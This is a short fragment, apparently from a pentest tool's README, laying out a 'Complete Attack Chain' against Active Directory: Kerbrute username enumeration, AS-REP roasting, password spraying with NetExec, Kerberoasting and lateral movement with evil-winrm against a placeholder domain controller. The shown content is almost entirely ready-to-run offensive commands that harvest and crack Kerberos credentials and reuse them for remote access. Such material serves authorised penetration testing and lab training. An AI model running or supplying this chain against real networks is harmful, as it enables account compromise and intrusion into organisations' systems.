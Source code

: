 ### Integration with Other Tools

#### Complete Attack Chain
```bash
# 1. Username enumeration with Kerbrute
./kerbrute userenum -d domain.local users.txt --dc 10.10.10.10 -o valid_users.txt

# 2. AS-REP roasting
python3 GetNPUsers.py domain.local/ -usersfile valid_users.txt -no-pass -dc-ip 10.10.10.10

# 3. Password spraying with NetExec
netexec smb 10.10.10.10 -u valid_users.txt -p common_passwords.txt

# 4. Kerberoasting if credentials found
python3 GetUserSPNs.py domain.local/user:pass -request -dc-ip 10.10.10.10

# 5. Lateral movement
evil-winrm -i 10.10.10.10 -u user -p password
```
